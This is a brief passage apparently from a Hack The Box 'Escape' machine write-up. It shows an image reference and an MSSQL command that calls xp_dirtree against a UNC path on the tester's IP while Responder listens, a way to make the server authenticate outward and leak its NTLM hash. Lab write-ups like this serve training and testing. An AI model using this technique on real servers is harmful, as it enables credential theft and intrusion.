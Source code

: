![image.png](/assets/images/Escape_HTB/image%2011.png)

After spinning up responder we can use xp_dirtree to send us a connection back.

```bash
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.46\noshare
```
